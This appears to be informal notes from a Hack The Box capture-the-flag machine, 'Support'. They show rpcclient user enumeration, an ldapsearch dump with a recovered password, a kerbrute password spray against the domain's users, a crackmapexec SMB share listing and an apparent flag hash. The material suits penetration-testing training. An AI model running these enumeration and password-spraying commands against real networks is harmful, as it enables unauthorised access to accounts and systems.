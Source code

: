 
Able to get a list of user through rpc
```
rpcclient -U "ldap" 10.10.11.174
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

```
rpcclient $> enumdomusers
Administrator
Guest 
krbtgt
ldap 
support 
smith.rosario
hernandez.stanley
wilson.shelby 
anderson.damian
thomas.raphael 
levine.leopoldo 
raven.clifton
bardot.mary 
cromwell.gerard 
monroe.david 
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```

With little tweak i was able to run the ldapsearch command
```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```
![[Pasted image 20231121224813.png]]

Now on doing enumerating on the ldap result we were able to get a passwd i think
I used gedit and search CN=support or we can also use cat and grep but didn't get the info in result
```
support
Ironside47pleasure40Watchful
```
![[Pasted image 20231121230414.png]]


I have to check the login and passwd if we can login or not 
```
kerbrute passwordspray -d support.htb --dc 10.10.11.174 user.txt -t 100 Ironside47pleasure40Watchful
```
![[Pasted image 20231121230700.png]]

```
cme smb 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful' --shares
```
![[Pasted image 20231121230951.png]]

```
7876c661f1a76c8ca81644f50ec85a1a
```
![[Pasted image 20231121231237.png]]